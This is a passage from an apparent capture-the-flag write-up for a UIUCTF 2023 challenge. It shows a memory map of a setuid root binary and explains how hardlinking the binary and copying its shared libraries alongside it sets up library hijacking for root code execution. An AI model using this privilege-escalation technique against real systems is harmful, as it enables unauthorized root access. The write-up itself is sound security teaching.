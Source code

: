 ```
7f53d7443000-7f53d7444000 r--p 00000000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7444000-7f53d7445000 r-xp 00001000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7445000-7f53d7446000 r--p 00002000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7446000-7f53d7447000 r--p 00002000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7447000-7f53d7448000 rw-p 00003000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7448000-7f53d744a000 rw-p 00000000 00:00 0
7f53d744a000-7f53d744c000 r--p 00000000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d744c000-7f53d7476000 r-xp 00002000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7476000-7f53d7481000 r--p 0002c000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7481000-7f53d7482000 ---p 00000000 00:00 0
7f53d7482000-7f53d7484000 r--p 00037000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7484000-7f53d7486000 rw-p 00039000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7486000-7f53d7487000 r--p 00000000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d7487000-7f53d7488000 r-xp 00001000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d7488000-7f53d7489000 r--p 00002000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d7489000-7f53d748a000 r--p 00002000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d748a000-7f53d748b000 rw-p 00003000 00:0f 296640                     /usr/lib/zapps/build/exe
7ffd50913000-7ffd50934000 rw-p 00000000 00:00 0                          [stack]
7ffd50996000-7ffd5099a000 r--p 00000000 00:00 0                          [vvar]
7ffd5099a000-7ffd5099c000 r-xp 00000000 00:00 0                          [vdso]
```

From the output, we can see that the `exe` loads `lib.so`, `libc.so.6` and `ld-linux-x86-64.so.2`.
That means if we can compromise one of those, we can execute code with `root` privileges since `exe` is a `setuid` binary with `root` as owner.
The problem is we cannot write to `/usr/lib/zapps/build/`. It's time to look at the report mentioned in the hint:

> ... hardlinks on Linux preserve permission, including set*id bits, and can be created by non-root users.

That means if we create a hardlink to `/usr/lib/zapps/build/exe` at somewhere else, it will still have the `setuid` bit set. We can create the hardlink using the following command:

```
uiuctf-2023:~$ ln /usr/lib/zapps/build/exe
```

Now copy `lib.so`, `libc.so.6` and `ld-linux-x86-64.so.2` to the same directory with the hard link to do a test run:

```
uiuctf-2023:~$ cp /usr/lib/zapps/build/*.so* .
uiuctf-2023:~$ ls
exe  init_chal  ld-linux-x86-64.so.2  lib.so  libc.so.6  zapps
uiuctf-2023:~$ ./exe
./exe: error while loading shared libraries: lib.so: cannot open shared object file: No such file or directory
```
